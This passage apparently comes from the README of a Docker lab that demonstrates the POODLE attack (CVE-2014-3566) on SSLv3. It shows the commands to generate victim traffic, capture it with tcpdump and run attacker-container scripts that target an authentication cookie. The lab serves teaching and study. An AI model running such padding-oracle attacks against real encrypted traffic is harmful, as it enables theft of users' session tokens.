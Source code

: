 ```bash
./run-complete-attack.sh
```

The script will:

1. Start victim traffic generation
2. Capture encrypted SSLv3 traffic for 60 seconds
3. Present three attack options:
   - Option 1: Realistic CVE-2014-3566 (with block alignment and padding injection)
   - Option 2: Visual demonstration (simplified step-by-step)
   - Option 3: Technical exploit (theory and analysis)

### Manual Attack Steps

#### Step 1: Start Client Traffic

```bash
docker exec -d poodle_client /client-scripts/generate-traffic.sh
```

#### Step 2: Capture Traffic

Identify the Docker bridge interface:

```bash
ip link show | grep br-
```

Capture packets (replace INTERFACE with actual bridge name):

```bash
sudo tcpdump -i INTERFACE -w captures/poodle_attack.pcap \
  "host 172.25.0.20 and host 172.25.0.10 and port 443"
```

#### Step 3: Run Exploit

Choose one of the attack scripts:

```bash
# Realistic attack with full padding oracle demonstration
docker exec -it poodle_attacker python /attack/realistic-poodle-attack.py

# Visual demonstration
docker exec -it poodle_attacker python /attack/visual-poodle-attack.py

# Technical analysis
docker exec poodle_attacker python /attack/poodle-exploit.py /captures/poodle_attack.pcap
```

## Attack Details

### Target Cookie

The server generates a JWT-like authentication token:
